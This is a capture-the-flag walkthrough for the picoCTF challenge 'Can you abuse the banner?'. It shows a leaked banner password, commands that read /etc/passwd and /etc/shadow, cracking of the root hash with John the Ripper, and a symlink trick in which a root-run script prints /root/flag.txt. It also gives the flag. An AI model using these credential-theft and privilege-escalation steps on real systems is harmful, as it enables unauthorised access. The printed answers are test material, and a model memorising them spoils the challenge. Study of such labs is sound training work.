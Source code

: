 ## Challege reads as follow 

Can you abuse the banner?
The server has been leaking some crucial information on 
tethys.picoctf.net 57019. Use the leaked information to get to the server.

To connect to the running application use 
nc tethys.picoctf.net 61514. From the above information abuse the machine and find the flag in the /root directory.

## let's connect with first server and obtain the leaking information 

upon connecting with leaking server, we got the following credentials:

## nc ethys.picoctf.net 57019

SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234 

now connect with another server using the password , provided by leaking server : 

muneer1631-picoctf@webshell:~$ nc tethys.picoctf.net 54357
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234

What is the top cyber security conference in the world?
DEF CON

the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper

player@challenge:~$ 

## Hey freaks, we're in now

## There are two hints, let's try with second trick first 😎 . First as the questions suggests  the flag is in root folder. 
let's check the permission of flag.txt 

__________________________________________________________________________________

player@challenge:/root$ ls -la 

ls -la 

total 16

drwxr-xr-x 1 root root    6 Mar  9 16:39 .

drwxr-xr-x 1 root root   29 Apr 17 10:17 ..

-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc

-rw-r--r-- 1 root root  148 Aug 17  2015 .profile

-rwx------ 1 root root   46 Mar  9 16:39 flag.txt
-rw-r--r-- 1 root root 1317 Feb  7 17:25 script.py
player@challenge:/root$  
____________________________________________________________________________________**

As we can see, it you need root Privileges to read the file . 
As I said there are two hint above , I solved it in two ways. 

1. Crack the password of root  and enter as root to read the contents of the file 
2. use the Hint of symblink and following along the way to solve it. 

## Firstly am going to crack the password of root (First way)

read users ( cat /etc/passwd)  and copy the root username and save it into a text file. 
______________________________________________________________________________
player@challenge:/root$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
_______________________________________________________________________________**

Similary read the hash of passwords stored in /ect/shadow
player@challenge:~$ cat /etc/shadow
cat /etc/shadow
root:$6$6QFbdp2H$R0BGBJtG0DlGFx9H0AjuQNOhlcssBxApM.CjDEiNzfYkVeJRNy2d98SDURNebD5/l4Hu2yyVk.ePLNEg/56DV0:19791:0:99999:7:::
___________________________________________________________________________________________________________________________

Use "unshadow" tool which merges password and shadow files into one, typically for cracking passwords. As 
you saved the username of root and hash of password, Take help of "unshadow" commnad to merge both files.

unshadow name.txt password.txt > passwords.txt

Now , you've merged file named as passwords. 

## Did you hear about John ?
NO, "John the Ripper is a powerful password cracking tool often used for security testing and analysis."

Provide the path where John (Already Installed in Kali Linux) and the password file 
_____________________________________________________________________________________________
┌──(user㉿kali)-[~/Desktop]
└─$ john /usr/sbin/ password 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
*iloveyou         (root)*   
1g 0:00:00:01 DONE 2/3 (2024-04-16 21:07) 0.6211g/s 598.7p/s 598.7c/s 598.7C/s 123456..john
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
__________________________________________________________________________________________**

Oh , you did it buddy. "iloveyou" is the password of root. Switch to root and read the contents of the file. 

# let's go for another way (second approach to solve it- symlink)


As we saw that you'll need to have root privileges to read the content and we cracked the hash and  entered as root. 
But this time, we're gonna use the **First Hint-Symlink**

See the following, we can find script.py let also read what this says

**player@challenge:/root$ ls -la
ls -la
total 16
drwxr-xr-x 1 root root    6 Mar  9 16:39 .
drwxr-xr-x 1 root root   41 May 16 07:36 ..
-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rwx------ 1 root root   46 Mar  9 16:39 flag.txt
-rw-r--r-- 1 root root 1317 Feb  7 17:25 script.py
player@challenge:/root$ cat script.py**

__________________________________________________
**player@challenge:/root$ cat script.py
cat script.py

import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt**
______________________________________________________________________

**Note: We can see that everytime we connect back to server, it loads /home/player/banner**

--> Now , we'll use symlink here, 

## **Symlinks, or symbolic links, are a type of file system object that acts as a reference to another file or directory**

**creating a symlink like creating refrence not actual hard link , we'll create symbolik link for /root/flag.txt in the home directory of user.**
**So, when we connect back to sever it will load the banner which will be referrencing the /root/flag.txt and flag will be loaded.**

Let's first move or rename the banner in home directory of user

**player@challenge:~$ mv banner hint   
mv banner hint
player@challenge:~$ ls
ls
hint  text**

Now, let make symlink of flag using following command : 

**player@challenge:~$ ln -s /root/flag.txt banner
ln -s /root/flag.txt banner
player@challenge:~$ ls
ls
banner  hint  text**

We have made it, just exit and connect back to server, it will load the banner , which referrencing flag and you'll have flag.

muneer1631-picoctf@webshell:~$ nc tethys.picoctf.net 56152
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_b3ee718e}

